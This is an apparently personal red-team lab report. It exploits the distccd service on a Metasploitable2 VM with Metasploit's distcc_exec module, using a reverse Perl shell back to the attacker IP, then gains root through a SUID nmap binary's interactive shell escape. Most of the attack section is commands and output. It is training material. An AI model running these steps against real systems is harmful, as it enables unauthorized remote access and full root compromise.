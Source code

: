 # 🔟 Lab10 – distccd Exploit & SUID Nmap Privilege Escalation

My Red Team Journey – From Recon to Exploitation | Lab10 Report

---

##  Description

In this lab, we exploited the **distccd (Distributed C Compiler Daemon)** service running on Metasploitable2. After gaining a limited shell as the `daemon` user, we escalated privileges by abusing a vulnerable SUID binary (`nmap`) to obtain full **root access**.

---

##  Target System

| Component          | Info                      |
|-------------------|---------------------------|
| Target OS         | Metasploitable2           |
| IP Address        | `192.168.56.103`          |
| Attacker Machine  | Kali Linux (VBox)         |
| Attacker IP       | `192.168.56.102`          |

---

##  Exploitation Steps

###  1. Nmap Full Port Scan

```bash
nmap -p- -sV -T4 -oN fullscan.txt 192.168.56.103
Detected service:

3632/tcp open distccd distccd v1 ((GNU) 4.2.4 (Ubuntu 4.2.4-1ubuntu4))
```


### 2. Remote Code Execution via distcc
```bash
msfconsole
use exploit/unix/misc/distcc_exec
set payload cmd/unix/reverse_perl
set RHOST 192.168.56.103
set RPORT 3632
set LHOST 192.168.56.102
exploit
```

 #### Privilege Escalation
### 3. SUID Binary Enumeration
```bash
find / -perm -4000 -type f 2>/dev/null
```

```bash
/usr/bin/nmap
```

### 4. Root Access via Nmap Interactive Mode
```bash

nmap --interactive
```

```bash
nmap> !sh
```

```bash
whoami
id
hostname
```

```makefile
root
uid=0(root) gid=1(daemon)
```


## Screenshots
1-) [!](https://github.com/ATTezel/RedTeam-Labs/blob/main/Lab10/Screen%20Shot%202025-07-07%20at%2000.33.34.png)

2-) [!] (https://github.com/ATTezel/RedTeam-Labs/blob/main/Lab10/Screen%20Shot%202025-07-07%20at%2000.37.17.png)

3-)

4-)

5-)

## What I Learned
How to identify and exploit services like distccd

How to choose the right payload (Perl worked, Bash failed)

How to enumerate SUID binaries

How to leverage known tools (GTFOBins) for privilege escalation

The value of older software and misconfigurations in real-world pentests

